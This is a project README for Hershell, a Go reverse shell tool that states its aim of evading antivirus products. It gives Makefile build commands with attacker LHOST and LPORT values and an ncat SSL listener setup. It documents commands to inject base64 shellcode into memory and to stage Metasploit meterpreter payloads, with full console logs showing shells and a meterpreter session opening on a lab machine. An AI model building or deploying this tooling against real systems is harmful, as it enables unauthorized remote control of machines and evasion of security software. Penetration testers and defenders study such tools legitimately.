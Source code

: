 # Hershell

Simple TCP reverse shell written in [Go](https://golang.org).

It uses TLS to secure the communications, and provide a certificate public key fingerprint pinning feature, preventing from traffic interception.

Supported OS are:

- Windows
- Linux
- Mac OS
- FreeBSD and derivatives

## Why ?

Although meterpreter payloads are great, they are sometimes spotted by AV products.

The goal of this project is to get a simple reverse shell, which can work on multiple systems.

## How ?

Since it's written in Go, you can cross compile the source for the desired architecture.

### Building the payload

To simplify things, you can use the provided Makefile.
You can set the following environment variables:

- ``GOOS`` : the target OS
- ``GOARCH`` : the target architecture
- ``LHOST`` : the attacker IP or domain name
- ``LPORT`` : the listener port

For the ``GOOS`` and ``GOARCH`` variables, you can get the allowed values [here](https://golang.org/doc/install/source#environment).

However, some helper targets are available in the ``Makefile``:

- ``depends`` : generate the server certificate (required for the reverse shell)
- ``windows32`` : builds a windows 32 bits executable (PE 32 bits)
- ``windows64`` : builds a windows 64 bits executable (PE 64 bits)
- ``linux32`` : builds a linux 32 bits executable (ELF 32 bits)
- ``linux64`` : builds a linux 64 bits executable (ELF 64 bits)
- ``macos`` : builds a mac os 64 bits executable (Mach-O)

For those targets, you just need to set the ``LHOST`` and ``LPORT`` environment variables.

### Using the shell

Once executed, you will be provided with a remote shell.
This custom interactive shell will allow you to execute system commands through `cmd.exe` on Windows, or `/bin/sh` on UNIX machines.

The following special commands are supported:

* ``run_shell`` : drops you an system shell (allowing you, for example, to change directories)
* ``inject <base64 shellcode>`` : injects a shellcode (base64 encoded) in the same process memory, and executes it (Windows only at the moment).
* ``meterpreter [tcp|http|https] IP:PORT`` : connects to a multi/handler to get a stage2 reverse tcp, http or https meterpreter from metasploit, and execute the shellcode in memory (Windows only at the moment)
* ``exit`` : exit gracefully

## Usage

First of all, you will need to generate a valid certificate:
```bash
$ make depends
openssl req -subj '/CN=yourcn.com/O=YourOrg/C=FR' -new -newkey rsa:4096 -days 3650 -nodes -x509 -keyout server.key -out server.pem
Generating a 4096 bit RSA private key
....................................................................................++
.....++
writing new private key to 'server.key'
-----
cat server.key >> server.pem
```

For windows:

```bash
# Predifined 32 bit target
$ make windows32 LHOST=192.168.0.12 LPORT=1234
# Predifined 64 bit target
$ make windows64 LHOST=192.168.0.12 LPORT=1234
```

For Linux:
```bash
# Predifined 32 bit target
$ make linux32 LHOST=192.168.0.12 LPORT=1234
# Predifined 64 bit target
$ make linux64 LHOST=192.168.0.12 LPORT=1234
```

For Mac OS X
```bash
$ make macos LHOST=192.168.0.12 LPORT=1234
```

## Examples

### Basic usage

One can use various tools to handle incomming connections, such as:

* socat
* ncat
* openssl server module
* metasploit multi handler (with a `python/shell_reverse_tcp_ssl` payload)

Here is an example with `ncat`:

```bash
$ ncat --ssl --ssl-cert server.pem --ssl-key server.key -lvp 1234
Ncat: Version 7.60 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 172.16.122.105.
Ncat: Connection from 172.16.122.105:47814.
[hershell]> whoami
desktop-3pvv31a\lab
```

### Meterpreter staging

**WARNING**: this currently only work for the Windows platform.

The meterpreter staging currently supports the following payloads :

* `windows/meterpreter/reverse_tcp`
* `windows/x64/meterpreter/reverse_tcp`
* `windows/meterpreter/reverse_http`
* `windows/x64/meterpreter/reverse_http`
* `windows/meterpreter/reverse_https`
* `windows/x64/meterpreter/reverse_https`

To use the correct one, just specify the transport you want to use (tcp, http, https)

To use the meterpreter staging feature, just start your handler:

```bash
[14:12:45][172.16.122.105][Sessions: 0][Jobs: 0] > use exploit/multi/handler
[14:12:57][172.16.122.105][Sessions: 0][Jobs: 0] exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
[14:13:12][172.16.122.105][Sessions: 0][Jobs: 0] exploit(multi/handler) > set lhost 172.16.122.105
lhost => 172.16.122.105
[14:13:15][172.16.122.105][Sessions: 0][Jobs: 0] exploit(multi/handler) > set lport 8443
lport => 8443
[14:13:17][172.16.122.105][Sessions: 0][Jobs: 0] exploit(multi/handler) > set HandlerSSLCert ./server.pem
HandlerSSLCert => ./server.pem
[14:13:26][172.16.122.105][Sessions: 0][Jobs: 0] exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.

[*] [2018.01.29-14:13:29] Started HTTPS reverse handler on https://172.16.122.105:8443
[14:13:29][172.16.122.105][Sessions: 0][Jobs: 1] exploit(multi/handler) >
```

Then, in `hershell`, use the `meterpreter` command:

```bash
[hershell]> meterpreter https 172.16.122.105:8443
```

A new meterpreter session should pop in `msfconsole`:

```bash
[14:13:29][172.16.122.105][Sessions: 0][Jobs: 1] exploit(multi/handler) >
[*] [2018.01.29-14:16:44] https://172.16.122.105:8443 handling request from 172.16.122.105; (UUID: pqzl9t5k) Staging x64 payload (206937 bytes) ...
[*] Meterpreter session 1 opened (172.16.122.105:8443 -> 172.16.122.105:44804) at 2018-01-29 14:16:44 +0100

[14:16:46][172.16.122.105][Sessions: 1][Jobs: 1] exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information                            Connection
  --  ----  ----                     -----------                            ----------
  1         meterpreter x64/windows  DESKTOP-3PVV31A\lab @ DESKTOP-3PVV31A  172.16.122.105:8443 -> 172.16.122.105:44804 (10.0.2.15)

[14:16:48][172.16.122.105][Sessions: 1][Jobs: 1] exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: DESKTOP-3PVV31A\lab
```

## Credits

Ronan Kervella `<r.kervella -at- sysdream -dot- com>`
